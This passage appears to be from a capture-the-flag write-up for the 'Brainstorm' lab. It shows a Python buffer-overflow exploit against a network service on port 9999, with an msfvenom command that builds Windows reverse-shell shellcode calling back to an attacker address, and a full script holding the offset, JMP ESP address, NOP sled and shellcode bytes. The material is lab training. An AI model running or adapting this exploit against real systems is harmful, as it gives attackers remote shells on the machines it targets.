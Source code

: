 ```python

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("[+] Sending username...")
  s.send(bytes("An00bRektn" + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Done!")
except:
  print("[-] Could not connect. Try checking if the program is running?")
```

### Verifying it Works
There's one last step before we're ready to roll. We will use msfvenom to generate the shellcode like so:
```bash
kali@kali:~/ctf/thm/brainstorm$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.69.4 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"
```

Since I'm testing on a local VM, I'll have to regenerate this shell code when I go to do it on the real machine. Regardless, our final exploit should look similar to this:
```python
#!/usr/bin/python3
import socket

ip = "10.10.69.5" # Set to remote machine ip
port = 9999

prefix = ""
offset = 2012 # byte offset here
overflow = "A" * offset # Optional, set A to \x90 
retn = "\xdf\x14\x50\x62" # JMP ESP (don't forget to reverse if little endian!)
padding = "\x90" * 16
payload = ("\xd9\xc5\xbe\xbf\x9b\x73\x55\xd9\x74\x24\xf4\x5f\x31\xc9\xb1"
"\x52\x83\xc7\x04\x31\x77\x13\x03\xc8\x88\x91\xa0\xca\x47\xd7"
"\x4b\x32\x98\xb8\xc2\xd7\xa9\xf8\xb1\x9c\x9a\xc8\xb2\xf0\x16"
"\xa2\x97\xe0\xad\xc6\x3f\x07\x05\x6c\x66\x26\x96\xdd\x5a\x29"
"\x14\x1c\x8f\x89\x25\xef\xc2\xc8\x62\x12\x2e\x98\x3b\x58\x9d"
"\x0c\x4f\x14\x1e\xa7\x03\xb8\x26\x54\xd3\xbb\x07\xcb\x6f\xe2"
"\x87\xea\xbc\x9e\x81\xf4\xa1\x9b\x58\x8f\x12\x57\x5b\x59\x6b"
"\x98\xf0\xa4\x43\x6b\x08\xe1\x64\x94\x7f\x1b\x97\x29\x78\xd8"
"\xe5\xf5\x0d\xfa\x4e\x7d\xb5\x26\x6e\x52\x20\xad\x7c\x1f\x26"
"\xe9\x60\x9e\xeb\x82\x9d\x2b\x0a\x44\x14\x6f\x29\x40\x7c\x2b"
"\x50\xd1\xd8\x9a\x6d\x01\x83\x43\xc8\x4a\x2e\x97\x61\x11\x27"
"\x54\x48\xa9\xb7\xf2\xdb\xda\x85\x5d\x70\x74\xa6\x16\x5e\x83"
"\xc9\x0c\x26\x1b\x34\xaf\x57\x32\xf3\xfb\x07\x2c\xd2\x83\xc3"
"\xac\xdb\x51\x43\xfc\x73\x0a\x24\xac\x33\xfa\xcc\xa6\xbb\x25"
"\xec\xc9\x11\x4e\x87\x30\xf2\x7b\x52\x7f\x06\x14\x60\x7f\x07"
"\x5f\xed\x99\x6d\x8f\xb8\x32\x1a\x36\xe1\xc8\xbb\xb7\x3f\xb5"
"\xfc\x3c\xcc\x4a\xb2\xb4\xb9\x58\x23\x35\xf4\x02\xe2\x4a\x22"
"\x2a\x68\xd8\xa9\xaa\xe7\xc1\x65\xfd\xa0\x34\x7c\x6b\x5d\x6e"
"\xd6\x89\x9c\xf6\x11\x09\x7b\xcb\x9c\x90\x0e\x77\xbb\x82\xd6"
"\x78\x87\xf6\x86\x2e\x51\xa0\x60\x99\x13\x1a\x3b\x76\xfa\xca"
"\xba\xb4\x3d\x8c\xc2\x90\xcb\x70\x72\x4d\x8a\x8f\xbb\x19\x1a"
"\xe8\xa1\xb9\xe5\x23\x62\xd9\x07\xe1\x9f\x72\x9e\x60\x22\x1f"
"\x21\x5f\x61\x26\xa2\x55\x1a\xdd\xba\x1c\x1f\x99\x7c\xcd\x6d"
"\xb2\xe8\xf1\xc2\xb3\x38") # shell code
```